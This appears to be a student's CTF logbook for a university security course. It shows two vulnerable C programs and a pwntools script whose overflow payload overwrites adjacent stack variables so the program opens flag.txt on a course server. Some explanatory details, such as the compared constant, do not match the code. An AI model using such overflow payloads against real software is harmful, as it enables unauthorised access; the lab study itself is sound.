 # Trabalho realizado na Semana #5 - SEED Labs - Buffer-Overflow Attack Lab (Set-UID Version)

## Task 1

## Task 2

## Task 3

## Task 4



# CTF - Control The Flag

## Desafio 1:
1. Initially we started by installing the pwntools and the packet checksec, and the zip files containing an executable called program, a main.c file and a python script called exploit-example.py

2. Right after, we executed the checksec command on the terminal and we got the following results:

![checksec](/Logbooks/img/Week5/checksekProgram.png)

**Observations:**
- x86 Architecture
- No cannary to protect return adress
- Stack has execute permissions - NX
- The binary positions aren't randomized
- There are memory regions with RMX permissions (Read, Write and Execute)

3. We check the given program and python script, namely main.c and exploit-example.py:

**main.c:**
```c++
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%40s", &buffer);

    printf("Echo %s\n", buffer);

    printf("I like what you got!\n");
    
    FILE *fd = fopen(meme_file,"r");
    
    while(1){
        if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
            printf("%s", buffer);
        } else {
            break;
        }
    }


    fflush(stdout);
    
    return 0;
}
```

**exploit-example.py:**
```python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"Tentar nao custa")
r.interactive()
```

**Observations:**
- There isn't a function there checks overflows
- The buffer value is read through scanf(), an input function
- The file is saved in an array that is located right above the variable buffer
- Flag is saved in a text file called flag.txt


4. To cause an overflow, we should fill the buffer with an input of 32 characters and at the end, to open the file that contains the flag (flag.txt), we insert the name of that file.

5. This way, the flag.txt is going to be opened and the flag that it contains is going to be printed in the terminal:

![flag1](/Logbooks/img/Week5/flag.png)


## Desafio 2:

1. On this challenge, we now contain a different main.c file:

**main.c**
```c++
#include <stdio.h>
#include <stdlib.h>

int main() {
    char val[4] = "\xef\xbe\xad\xde";
    char meme_file[9] = "mem.txt\0\0";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%45s", &buffer);
    if(*(int*)val == 0xfefc2324) {
        printf("I like what you got!\n");
        
        FILE *fd = fopen(meme_file,"r");
        
        while(1){
            if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    } else {
        printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
    }

    fflush(stdout);
    
    return 0;
}
```

**Observations:**
In comparison with the previous main file:
- This one checks if a value as been altered without knowing `if(*(long*)val == 0xfefc2122)`
- There is another buffer called val that is situated between buffer and meme_file. This provides a little more protection.
- In case the value of val is not valid, an error message is printed

2. Initially, we started by executing again the checksec command, that gave us the same information

![checksec2](/Logbooks/img/Week5/checksekProgram2.png)

3. To overflow this system we follow the same strategy from the previous *Desafio* but now we should also add to the input the address that is beeing compared to the val buffer (0xfefc2122), used to check if something was adulterated

4. To do such thing, we changed the given exploit-example.py so that the main.c function receives the exact input to unlock the flag contained in the flag.txt file. We named that script exploit.py

**exploit.py:**
```python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

r.recvuntil(b":")
r.sendline(b"qwertyuiopasdfghjklzxcvbnmqwerty\x24\x23\xfc\xfeflag.txt")
r.interactive()
```

4. Finally, we obtained the following results:

![flag2](/Logbooks/img/Week5/flag2.png)

